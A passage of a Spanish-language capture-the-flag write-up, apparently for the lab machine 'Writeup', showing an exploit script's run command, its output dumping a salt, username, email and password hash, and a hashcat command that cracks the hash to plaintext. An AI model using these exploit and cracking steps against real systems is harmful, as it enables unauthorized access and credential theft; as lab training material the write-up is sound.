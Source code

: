 ```python
dump_password()

if args.crack:
    print(colored("[*] Now try to crack password", 'yellow'))
    crack_password()

beautify_print()

```

Ejecutamos el script con:

```bash
python3 exploit.py -u http://10.10.10.138/writeup/ -w /usr/share/wordlists/rockyou.txt
```

> 🔧 El parámetro `-u` es para la URL objetivo y `-w` es para el diccionario.  
> ⚙️ Modificamos `TIME = 1` a `TIME = 2` para evitar falsos positivos.

![[Writeup6.png]]

---

# 🧂 Resultado del exploit

```
[+] Salt for password found: 5a599ef579066807
[+] Username found: jkr
[+] Email found: jkr@writeup.htb
[+] Password found: 62def4866937f08cc13bab43bb14e6f7
```

---

# 🔓 Crackear contraseña con Hashcat

Hash probable: **MD5**

Contenido del archivo `hash`:

```
62def4866937f08cc13bab43bb14e6f7:5a599ef579066807
```

Ejecutamos Hashcat:

```bash
hashcat -a 0 -m 20 hash /usr/share/wordlists/rockyou.txt
```

Resultado:

```
62def4866937f08cc13bab43bb14e6f7:5a599ef579066807:raykayjay9
```
